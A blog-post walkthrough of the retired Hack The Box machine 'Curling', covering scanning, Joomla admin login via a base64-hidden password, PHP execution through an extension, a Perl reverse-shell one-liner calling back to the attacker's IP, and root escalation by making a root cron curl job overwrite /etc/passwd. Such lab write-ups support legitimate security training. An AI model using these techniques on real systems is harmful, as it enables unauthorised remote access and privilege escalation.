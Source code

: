 ```yaml
---
layout: post
title: "Curling: Hack The Box Walkthrough"
date: 2019-03-30 15:46:14 +0000
last_modified_at: 2019-03-30 15:46:24 +0000s
category: Walkthrough
tags: ["Hack The Box", Curling, retired]
comments: true
image:
  feature: curling-htb-walkthrough.jpg
  credit: Shabbytochicnz / Pixabay
  creditlink: https://pixabay.com/en/curling-bonspiel-winter-sport-ice-882649/
---
```


This post documents the complete walkthrough of Curling, a retired vulnerable [VM][1] created by [L4mpje][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

Curling is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 10.10.10.150
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

Let's start with the `http` service. This is how it looks like in a browser.

<a class="image-popup">
![8551cc0f.png](/assets/images/posts/curling-htb-walkthrough/8551cc0f.png)
</a>

## Directory/File Enumeration

Let's use `wfuzz` and SecLists' `quickhits.txt`, and see what we can get.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt --hc '403,404' http://10.10.10.150/FUZZ
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.150/FUZZ
Total requests: 2371

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000600:  C=200    109 L      348 W         5110 Ch        "/administrator/"
000603:  C=301      9 L       28 W          325 Ch        "/administrator/logs"
000825:  C=200      1 L        2 W           31 Ch        "/cache/"
000966:  C=200      0 L        0 W            0 Ch        "/configuration.php"
001306:  C=200     80 L      493 W         3005 Ch        "/htaccess.txt"
001444:  C=200    339 L     2968 W        18092 Ch        "/LICENSE.txt"
001915:  C=200     72 L      540 W         4872 Ch        "/README.txt"
002101:  C=200      1 L        2 W           31 Ch        "/templates/"
002138:  C=301      9 L       28 W          310 Ch        "/tmp"
002139:  C=200      1 L        2 W           31 Ch        "/tmp/"
002270:  C=200     31 L       90 W         1690 Ch        "/web.config.txt"

Total time: 48.42746
Processed Requests: 2371
Filtered Requests: 2360
Requests/sec.: 48.95982
```

Now, what do we have here? Joomla!

<a class="image-popup">
![12613c27.png](/assets/images/posts/curling-htb-walkthrough/12613c27.png)
</a>

## Joomla 3.8

If you look at the articles posted, the first article was signed off by Floris and written by Super User. Could `floris` be the username? And, what's the password?

Hidden at the bottom of the HTML source code of the landing page is a HTML comment that looks like this.

<a class="image-popup">
![6ec7edb7.png](/assets/images/posts/curling-htb-walkthrough/6ec7edb7.png)
</a>

Hmm. It seems to suggest the presence of a `secret.txt` file. Let's check it out.

<a class="image-popup">
![8ebdadd4.png](/assets/images/posts/curling-htb-walkthrough/8ebdadd4.png)
</a>

That's the `base64`-encoding of the string `Curling2018!`.

<a class="image-popup">
![a92bf554.png](/assets/images/posts/curling-htb-walkthrough/a92bf554.png)
</a>

Could this be the password? There's only one way to find out.

<a class="image-popup">
![40671766.png](/assets/images/posts/curling-htb-walkthrough/40671766.png)
</a>

The credential is indeed (`floris:Curling2018!`) and a Super User no less.

## Low-Privilege Shell

Searching for "writing joomla article in php" in Google led me to [Sourcerer](https://www.regularlabs.com/extensions/sourcerer), a Joomla extension that allows one to write in any code, more importantly in PHP. And since I'm the Super User, installing an extension is a breeze. Go to Extensions->Manage->Install.

<a class="image-popup">
![95c16f02.png](/assets/images/posts/curling-htb-walkthrough/95c16f02.png)
</a>

Upload the extension and you are done.

<a class="image-popup">
![d1fda8ec.png](/assets/images/posts/curling-htb-walkthrough/d1fda8ec.png)
</a>

Now, log in to the landing page with the same credential and go back to one of the articles already posted; and add some PHP code like this.

<a class="image-popup">
![b1c12ee0.png](/assets/images/posts/curling-htb-walkthrough/b1c12ee0.png)
</a>

Save the article and go to the article's canonical URL.

<a class="image-popup">
![0e4516a9.png](/assets/images/posts/curling-htb-walkthrough/0e4516a9.png)
</a>

Isn't this awesome? We are now ready for a reverse shell. I always like Perl because it's more likely to be present than Python.

```
perl -e 'use Socket;$i="10.10.14.109";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

[URLencode](https://en.wikipedia.org/wiki/Percent-encoding) it to prevent complications since we are putting in the address bar.

Meanwhile at my `nc` listener, a reverse shell appears...

<a class="image-popup">
![255ebd1e.png](/assets/images/posts/curling-htb-walkthrough/255ebd1e.png)
</a>

## Privilege Escalation

During enumeration of `www-data`'s account, I notice an interesting file `password_backup` at `/home/floris`. The `user.txt` is here but only `floris` can read it.

<a class="image-popup">
![a6623416.png](/assets/images/posts/curling-htb-walkthrough/a6623416.png)
</a>

The file `password_backup` is a hexdump.

<a class="image-popup">
![f38ab22b.png](/assets/images/posts/curling-htb-walkthrough/f38ab22b.png)
</a>

Let's restore the hexdump back to its binary form and see what's next with `file`.

<a class="image-popup">
![4aae9715.png](/assets/images/posts/curling-htb-walkthrough/4aae9715.png)
</a>

Let's try the credential (`floris:5d<wdCbdZu)|hChXll`) with SSH.

<a class="image-popup">
![1fca6a37.png](/assets/images/posts/curling-htb-walkthrough/1fca6a37.png)
</a>

Perfect. Time to retrieve `user.txt`.

<a class="image-popup">
![31cbe022.png](/assets/images/posts/curling-htb-walkthrough/31cbe022.png)
</a>

Now, I notice something really strange going on in `/admin-area`.

<a class="image-popup">
![3a223cec.png](/assets/images/posts/curling-htb-walkthrough/3a223cec.png)
</a>

Two files are written here by `root` at every minute interval! If I have to guess, I would say that a `cron` job is ran by `root` every minute writing the files here.

The file `input` contains `curl`-like argument like this.

<a class="image-popup">
![7a809141.png](/assets/images/posts/curling-htb-walkthrough/7a809141.png)
</a>

If that's the case, I can change the content to this.

```
url = "file:///tmp/passwd"
output = "/etc/passwd"
```

This input will tell `curl` to download the file at `/tmp/passwd` and write it to `/etc/passwd`. Now, let's copy `/etc/passwd` to `/tmp/passwd` and add another `root` account like so.

<a class="image-popup">
![1a567305.png](/assets/images/posts/curling-htb-walkthrough/1a567305.png)
</a>

Where `to5bce5sr7eK6` is the `crypt(3)` hash or one-way digest of "toor" with salt "toor".

Once that's done, we can proceed to modify `input` and log in as `toor` a minute later.

<a class="image-popup">
![f2bb1de7.png](/assets/images/posts/curling-htb-walkthrough/f2bb1de7.png)
</a>

Getting `root.txt` is next to trivial.

<a class="image-popup">
![320937c1.png](/assets/images/posts/curling-htb-walkthrough/320937c1.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/160
[2]: https://www.hackthebox.eu/home/users/profile/29267
[3]: https://www.hackthebox.eu/

